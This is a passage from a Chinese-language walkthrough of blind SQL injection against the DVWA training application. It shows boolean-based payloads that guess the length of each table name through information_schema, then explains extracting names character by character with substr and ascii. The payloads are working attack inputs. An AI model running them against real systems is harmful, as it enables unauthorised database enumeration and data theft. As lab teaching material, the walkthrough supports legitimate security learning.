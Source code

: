 说明数据库中有两张表



#### 依次猜解表的长度

##### 原理

```
下面语句可以查出数据库中 第一张表的名字
select table_name from information_schema.tables where table_schema='dvwa' limit 0,1

再取长度，依次判断
```



##### 尝试

```
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))=1 # 提示不存在
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))=2 # 提示不存在
...
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))=9 # 提示存在
```

说明第一张表的长度为9

同理

```
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))=1 # 提示不存在
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))=2 # 提示不存在
...
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))=5 # 提示存在
```

说明第二张表的长度为5



#### 猜解表名

##### 原理

```
先查出第一张表的名字，暂定为tname
select table_name from information_schema.tables where table_schema='dvwa' limit 0,1

再截取第一个字符，暂定为char
substr(tname,1,1)

在计算它的ASCII值
ascii(char)

最后使用二分法猜测具体指
```
